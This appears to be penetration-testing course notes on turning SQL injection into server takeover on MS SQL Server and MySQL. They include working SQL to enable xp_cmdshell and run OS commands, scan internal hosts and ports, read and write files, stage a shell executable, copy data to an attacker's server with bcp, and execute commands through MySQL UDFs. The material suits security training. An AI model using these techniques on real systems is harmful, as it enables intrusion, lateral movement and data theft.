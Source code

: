 # 5.4.8 From SQLi to Server Takeover

## From SQLi to Server Takeover

In this section, advanced features provided by MS SQL Server and MySQL are explored, revealing how these features can be exploited to gain access to the DBMS server machine.

### **Advanced SQL Server Exploitation**

#### **xp\_cmdshell:**

* `xp_cmdshell` is a stored procedure in SQL Server that provides advanced features.
* To run an OS command: `EXEC master..xp_cmdshell '<command>'`
* Not enabled by default, requires sa privileges.
*   Enable and disable:

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;

    -- After tests
    EXEC sp_configure 'xp_cmdshell', 0;
    EXEC sp_configure 'show advanced options', 0;
    RECONFIGURE;
    ```

### **Internal Network Host Enumeration**

* Use `xp_cmdshell` to launch commands.
* Ping command: `EXEC master.dbo.xp_cmdshell 'ping <target IP address>'`
* Use execution time to infer ping result.

### **Port Scanning (OPENROWSET)**

* Use `OPENROWSET` for remote server table access.
*   Exploit for port scanning:

    ```sql
    SELECT * FROM OPENROWSET('SQLOLEDB', 'uid=sas;pwd=something;Network=DBMSSOCN;Address=<target IP>,<target port>;timeout=<connection timeout in seconds>', 'select 1')--
    ```
* Detect open/closed ports based on error messages.

### **Reading the File System**

* Use `EXEC master..xp_cmdshell 'dir <target directory>'` to list directory contents.
* Save output to a web-accessible folder or read a file and put content into a table for extraction.

### **Uploading Files**

*   Insert file into a table in the MS SQL database.

    ```sql
    CREATE TABLE HelperTable (file text)
    BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
    ```
*   Retrieve it from our server:

    ```sql
    EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S<our server address> -I<out server username> -P<our server password>'
    ```

### **Storing Command Results into a Temporary Table**

*   Create a temporary table to hold stored procedure output:

    ```sql
    CREATE TABLE temptable (id int not null identity (1,1), output nvarchar(4096) null);
    ```
* Craft argument for `xp_cmdshell`.
*   Execute command and store results:

    ```sql
    declare @t nvarchar(4096) set @t=0x640069007200200063003a005c00 insert into temptable (output) EXEC master.dbo.xp_cmdshell @t;
    ```

**Conclusion:**

* Advanced SQL Server exploitation involves leveraging features like `xp_cmdshell` for OS command execution, internal network host enumeration, port scanning, reading the file system, uploading and downloading files, and storing command results for further analysis.

## **Advanced MySQL Exploitation**

### **Reading the File System:**

* Use `LOAD_FILE('<text file path>')` to read files.
* For binary files: `SELECT HEX(LOAD_FILE('<text file path>'))`.

### **Uploading Files:**

*   Use `SELECT ... INTO DUMPFILE` to write query results to a file.

    ```sql
    SELECT <fields> FROM <table> INTO DUMPFILE '<output file path>';
    ```
* Convert binary file to hex-string and upload.

### **Executing Shell Commands:**

* MySQL doesn't provide a direct method for running shell commands.
* Use User Defined Functions (UDF) for custom functions like `sys_eval` and `sys_exec`.
* Upload shared objects (SO) or dynamic-link library (DLL) files to the target server.
*   Execute commands:

    ```sql
    SELECT sys_eval('<command>')
    SELECT sys_exec('<command>')
    ```

**Conclusion:**

* Advanced MySQL exploitation includes reading the file system, uploading files, and executing shell commands using User Defined Functions (UDFs).
